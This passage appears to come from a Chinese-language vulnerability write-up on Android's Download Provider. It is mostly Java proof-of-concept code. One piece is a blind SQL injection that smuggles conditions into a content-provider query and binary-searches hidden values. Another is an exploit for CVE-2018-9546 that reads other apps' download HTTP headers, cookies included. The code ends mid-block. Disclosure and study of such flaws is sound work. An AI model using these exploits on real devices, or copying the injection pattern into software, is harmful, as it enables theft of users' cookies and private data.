     private int binarySearch(int id, String sqlExpression) {
        int min = 0;
        int max = 20000;
        int mid = 0;

        while (min + 1 < max) {
            mid = (int) Math.floor((double) (max + min) / 2);

            if (isTrueCondition(id, sqlExpression + ">" + mid))
                min = mid;
            else
                max = mid;
        }

        if ((mid == max) && isTrueCondition(id, sqlExpression + "=" + mid))
            return mid;
        else if (isTrueCondition(id, sqlExpression + "=" + (mid + 1))) // Extra check
            return mid + 1;

        return -1;
    }

    private boolean isTrueCondition(int rowId, String sqlCondition) {
        ContentResolver res = getContentResolver();
        Uri uri = Uri.parse(MY_DOWNLOADS_URI);

        Cursor cur = res.query(uri, new String[]{"_id"}, "_id=" + rowId + ") and (" +
                sqlCondition + ") or (1=1", null, null);

        try {
            return (cur != null && cur.getCount() > 0);
        } finally {
            if (cur != null)
                cur.close();
        }
    }
CVE-2018-9546: Download Provider文件头信息泄露
Download Provider运行app获取下载的http请求头，但理论上APP只能访问自己下载的文件的http请求头，但Download Provider没有做好权限配置，导致heads可以被任意读取。header中会保存一些敏感数据，例如cookie等。

读取header的URI为：content://download/mydownloads/download_id/headers

PoC代码：

Uri uri = Uri.parse("content://download/mydownloads/1493/headers");
Cursor cur = res.query(uri, null, null, null, null);

try {
if (cur != null && cur.getCount() > 0) {
StringBuilder sb = new StringBuilder(LOG_SEPARATOR);
sb.append("HEADERS FOR DOWNLOAD ID ").append(id).append("\n");
while (cur.moveToNext()) {
String rowHeader = cur.getString(cur.getColumnIndex("header"));
String rowValue = cur.getString(cur.getColumnIndex("value"));
sb.append(rowHeader).append(": ").append(rowValue).append("\n\n");
}
log(sb.toString());
}
} finally {
if (cur != null)
cur.close();
